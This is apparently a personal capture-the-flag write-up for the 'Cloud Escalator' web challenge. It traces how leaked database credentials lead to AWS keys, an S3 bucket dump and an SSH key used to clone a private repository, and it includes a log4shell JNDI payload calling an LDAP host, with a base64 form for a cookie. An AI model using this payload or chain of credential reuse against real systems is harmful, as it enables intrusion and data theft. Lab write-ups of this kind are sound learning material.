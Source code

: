 # Cloud Escalator part 1
## The App
Cloud Escalator shows just an image with "Under Construction" on the start page.

## Exploring content
First I explored the site by opening it with ZAP Proxy.

### Path /
Nothing

### Path /logout

### Path /login
There is a login form which can submit username and password. Login with `admin` `admin` is not possible and shows a `The username and/or password are not valid` message. There is a `Forgot password` link which goes to `/forgotpassword.html`

The passwords from the database do not seem to be crackable with Hashcat (not a top 1.000.000 password + no result after 7 character brute force).

SQL Injection does not seem to work.

### Path /forgotpassword.html
This site has some JavaScript which is does not work:

```javascript
function errorMessage() {
	var error = document.getElementById("error")
	if (isNaN(document.getElementById("number").value))
	{
			
		// Complete the connection to mysqldb escalator.c45luksaam7a.us-east-1.rds.amazonaws.com. Use credential allen:8%pZ-s^Z+P4d=h@P
		error.textContent = "Under Construction"
		error.style.color = "red"
	} else {
		error.textContent = "Under Construction"
	}
}
```

Another thing to note except the database credentials is the `JSESSIONID` cookie.

Custom header `ETag: W/"1562-1656070092000"` also might be interesting (https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/ETag Spoiler: It is not).

Trying to submit a username from the database does not seem to do something.

### Path /admin
HTTP 404, shows an Apache Tomcat default HTTP 404 error.

### Path /dashboard
HTTP 404, shows an Apache Tomcat default HTTP 404 error.

### Database
Openening the database reveals some shemas:

- accounts
- config
- env
- innodb
- sys
- users

#### Database schema users
##### Table data
Reveals a Flag.

##### Table employees_login
Contains `Emp_id`, `User_name` and `Password`. The passwords are hashed with SHA1.

##### Table employees
Contains some personal data about the employees. `Email`s are all `@dummy.com` and `Date_of_Birth` is all `0000-00-00`.

#### Database schema env
##### Table git
Contains an OpenSSH private key.

#### Database schema config
##### Table aws_env
Contains:

- `user` =  `s3user1`
- `access_key` = `AKIAWSXCCGNYFS7NN2XU`
- `secret` = `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`

#### Database schema accounts
##### Table employees_account
Contains `Emp_id`, `Username`, `Account_number`

### Amazon S3
The crdentials in the `aws_env` table can be used to access an Amazon S3 bucket with. Download is possible with AWS CLI (after `aws configure`): 
`aws s3 cp s3://escalator-logger-armour/ ~/Dokumente/CTFs/Hack\ Holidays\ -\ Unlock\ the\ City\ 2022/Web/Cloud\ Escalator/s3 --recursive --include "*"`

It contains a tomcat log. After analyzing it, I saw another flag:

`23-Jun-2022 12:50:31.561 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: CTF{example_flag}`

After some more analyzing, I stumbled on this suspicious line:

`23-Jun-2022 12:50:31.551 ERROR [main] unable to pull update from github.com/cloudhopper-sec/app.git`

The repository is not accessible on GitHub. However, the account exists.

### GitHub Repository
GitHub repository can be cloned with the command `bash core.sshCommand="ssh -i ~/location/to/private_ssh_key"`

The SSH key is the one leaked from the database.

The repository contains the source code of the challenge including a Dockerfile.

### Apache Tomcat
The Tomcat servers version might be vulnerable to Remote Code Execution via a malicious `PUT` of a JSP (https://nvd.nist.gov/vuln/detail/CVE-2017-12617).

I tried it but the server is not vulnerable and forbids  `PUT` requests.

## Code Review
The Java Servlet has `log4j` 2.14.1 as a dependency, which is vulnerable to Remote Code Execution via JNDI (Java Native Directory Interface).

Looking at the code, `ProfileServlet.java` logs the content of a `debug` Cookie value. This can be used to perform a log4shell attack. However, this is only possible if the user is logged in.

JNDI payload:
`Payload - ${jndi:ldap://172.17.0.1:2022/foo}`

base64 encoded (for Cookie):
`VGVzdCAtICR7am5kaTpsZGFwOi8vMTcyLjE3LjAuMToyMDIyL2Zvb30`

In the Docker environment, the username and password are set to an empty string. However, this is not the case in production, maybe username or password are the flag. The user is identified by a SHA256 hash which is `SHA256(username + password)`.  The Database credentials don't work.

Tomcat does not use log4j so it is not vulnerable to malicious user input. Other libraries also don't use log4j.

